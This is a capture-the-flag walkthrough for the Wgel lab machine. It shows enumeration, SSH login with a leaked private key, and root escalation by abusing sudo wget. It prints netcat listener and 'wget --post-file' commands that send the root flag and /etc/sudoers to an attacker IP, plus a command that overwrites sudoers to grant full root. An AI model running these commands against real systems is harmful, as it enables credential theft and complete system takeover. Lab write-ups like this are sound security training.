

# Wgel CTF
# [cd ../](../index.md)
> Can you exfiltrate the root flag?

# Start

## Enumeration

### Nmap
[nmaps](nmaps.txt)  

- We have port `22` and `80` open  
Port 80 source:
```
<!-- Jessie don't forget to udate the webiste -->
```
- We got the username `jessie`
### Dirsearch
- We found `/sitemap`  


- Run dirsearch again but now in `/sitemap`  

- Go to `/sitemap/.ssh` and download the `id_rsa` [file](files/id_rsa)

## Connecting to ssh
```
chmod 600 id_rsa
ssh -i id_rsa jessie@10.10.109.62
```


## Privilege escalation

`sudo -l` tell us everything we need.  


### Exploiting the vuln
Attacker:
```
nc -lvp 1337 > root.txt
```

Victim:
```
sudo wget --post-file=/root/root_flag.txt 10.8.22.204:1337
```

[root.txt](files/root.txt)  
And just hold enter some time then just crtl+c and `cat root.txt`
- We got it  


## Getting a root shell
- Get the `/etc/sudoers` file from the victim

```
sudo wget --post-file=/etc/sudoers 10.8.22.204:1337
```
[sudoers](files/sudoers_og)

- Edit it so jessie could just `sudo su`
  Just replace `NOPASSWD: /usr/bin/wget` with `NOPASSWD: ALL` and u r done  
    
  [sudoers_edited](files/sudoers)

- Download on victim, while replacing the original file

```
cd /etc
sudo wget 10.8.22.204:8000/files/sudoers --output-document=sudoers
```

Now we have the edited file
```
sudo su
```
We got the root shell!!  

